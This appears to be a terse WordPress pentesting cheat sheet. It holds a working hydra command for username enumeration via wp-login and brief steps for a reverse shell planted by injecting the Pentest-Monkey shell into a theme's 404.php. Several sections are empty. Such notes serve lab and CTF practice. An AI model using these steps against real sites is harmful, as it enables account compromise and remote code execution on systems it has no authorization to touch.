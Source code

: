 # Wordpress

## Tools :
- wpscan

## Username enumeration w/ hydra
```bash
export IP=10.10.110.142
hydra -L userlist.txt -p randompassword $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

## Password bruteforce w/ hydra

## Reverse shell (Authenticated)

### Metsaploit
...
### Template (404.php injection)
1. Go to appearance
2. Go to editor
3. Select 404.php
4. Copy and past Pentest-Monkey reverse shell
5. Validate

### WPSCAN

